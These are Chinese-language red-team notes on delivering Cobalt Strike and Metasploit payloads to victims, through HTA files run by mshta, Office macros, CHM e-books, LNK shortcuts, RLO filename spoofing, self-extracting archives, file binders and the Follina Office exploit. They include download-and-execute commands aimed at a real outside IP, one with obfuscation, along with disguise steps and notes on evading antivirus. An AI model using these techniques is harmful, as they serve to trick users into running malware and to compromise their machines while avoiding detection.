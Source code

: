 hta上线
Office宏对象
CHM电子书
LNK快捷方式
上线免杀方案
exe伪装成图片
文件名-RLO伪装-后缀
压缩文件-自解压-运行
捆绑文件-打包加载-运行
Office 套件-CVE 漏洞-上线MSF&CS

^
## **hta上线**
>`mshta.exe` 是 Windows 操作系统的一部分，通常存在于所有现代版本的 Windows 中，包括 Windows 10、Windows 11 以及 Windows Server 系统。`mshta` 是一个命令行实用工具，用于执行 HTML 应用程序（HTA）。

msf
```
msf6 exploit(windows/misc/hta_server) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://0.0.0.0:8080/8HGLrG47OUEJ.hta
[*] Local IP: http://vps:8080/8HGLrG47OUEJ.hta
[*] Server started.
```
执行
```
mshta.exe http://vps:8080/8HGLrG47OUEJ.hta
```


## **Office宏对象**
CS生成，需要点击同意加载宏。
```
Office运行后进程
rundll32.exe   24292   系统文件C:\Windows\SysWOW64\rundll32.exe   TCP  源127.0.0.1:21467  目的127.0.0.1:10809
这里是开了全局代理没有显示外链地址，正常就是远控监听地址
```
有效载荷-Office宏-复制宏代码vb代码

1.word左边选项-设置-自定义功能-勾选开发工具
此时右上角就可以设置宏，可能在视图里
进入点击宏位置在本文件，新建
粘贴宏代码，ctrl+s此时选择否，另存为带有宏的.docm文件(.docm) 或 Word97-2003文档（.doc，老版本word也能用）

此时点开.docm/.doc文件，进入后点击启用宏。即可上线。
也需要做免杀，不然宏代码被删除。如果免杀后且无进程，这种免杀上线不容易被检测。

2.同理excel选择保存：Excel启用宏的工作薄（.xlsm）或 Excel97-2003工作薄（.xls）。

3.同理PPT选择保存：启用宏的PowerPoint演示文稿（.pptm）或 PowerPoint97-2003演示文稿（.ppt）。

4.word,excel.ppt的模板文件后缀，也可以加入宏。


5.office的老板有一个CVE-2017-11882，msf可以生成word打开直接上线msf。

免杀方案：
混淆宏代码，分离远程http加载。
自动化项目：http://github.com/outflanknl/Evi/Clippy  ，将宏代码vba一键注入正常doc，过DF难。
给doc加保护密码。


^
## **CHM电子书文件**
CHM：Compiled HTML Help
利用htm的js调用powershell.exe去连接CS服务端web投递，用EasyCHM工具 转成CHM文件，点击运行上线。
或利用js调用cmd.exe/c bitsadmin/transfer 64c http://47.94.236.117:83/a %APPDATA%\604c.exe&%APPDATA%\604c.exe&del %APPDATA%\604c.exe
用bitsadmin下载604c.exe执行，再删除604c.exe

核心是js调用程序cmd来下载exe，需要对命令做混淆。
c”e””r"”t”"u”"t“i“"l”-"u""”"c"a"c”h"e" -split -f http://47.94.236.117/5.exe  & 5.exe
^
## **LNK快捷方式调用白名单**
调用的白名单执行，免杀。
利用系统文件执行：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
快捷方式伪装：
-创建快捷方式
-生成HTA并上传
-属性更改目标执行
-属性更改图标伪装（最好用系统图标，每台机子都有）

CS中攻击载荷生成HTA，选择Executable或PowerShell，生成.hta文件。
用CS开一文件托管或直接将.hta上传服务器获取下载外链，如CS上传文件外链http://xx.xx.xx.xx:xx/x.ext。
快捷方式属性目标改成：C:\windows\System32\mshta.exe http://xx.xx.xx.xx:xx/x.ext
起始目录改成：C:\windows\System32\
点击快捷方式即可上线，此时有可能报毒.hta文件，但.hta文件已经被mshta.exe加入到内存，已经上线。


## **免杀方案**
小迪153

## **exe伪装成图片**
<https://blog.csdn.net/guanjian_ci/article/details/138808440?spm=1001.2014.3001.5502>
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改成一张图片

^
## **文件名-RLO伪装-后缀**
```
xgpj.exe 编辑x|gpj.exe文件名右键 插入unicode控制字符反转RLO变xexe.jpg 
```
使用Restorator2018资源管理器对图标修改

^
## **压缩文件-自解压-运行**
将几个文件使用WinRAR 设置SFX参数压缩成exe，让解压后自动解压到位置并运行。
再使用RLO重命名变成zip后缀，如softexe.zip。

>管家不杀，火绒不杀

^
## **捆绑文件-打包加载-运行**
文件捆绑器.exe binding等工具
将正常程序和后门程序捆绑一起
<https://blog.csdn.net/m0_67844671/article/details/139316956>

有的捆绑器甚至可以将pdf和后门程序捆绑，打开pdf就上线
>管家可能杀，选择冷门的捆绑工具MatryoshkaDollTool-master

^
## **Office 套件-CVE 漏洞-上线MSF&CS**
Microsoft MSDT CVE-2022-30190 代码执行

https://github.com/JohnHammond/msdt-follina
该漏洞首次发现在 2022 年 5 月 27 日，由白俄罗斯的一个 IP 地址上传。恶意文档从
Word 远程模板功能从远程 Web 服务器检索 HTML 文件，
通过 ms-msdt MSProtocol URI 方法来执行恶意 PowerShell 代码。感染过程利用
程序 msdt.exe，该程序用于运行各种疑难解答程序包。
此工具的恶意文档无需用户交互即可调用它。导致在宏被禁用的情况下，恶意文档依旧可
以使用 ms-msdt URI 执行任意 PowerShell 代码。

目前已知影响的版本为：
office 2021 Lts
office 2019
office 2016
Office 2013
Office ProPlus
Office 365

<https://blog.csdn.net/weixin_53884648/article/details/127791345>
部署服务html
生成恶意docx。
打开恶意docx，请求html，直接命令执行。

修改exp里面下载后门exe的地址生成docx即可。
python follina.py -m binary -b \windows\system32\calc.exe -t docx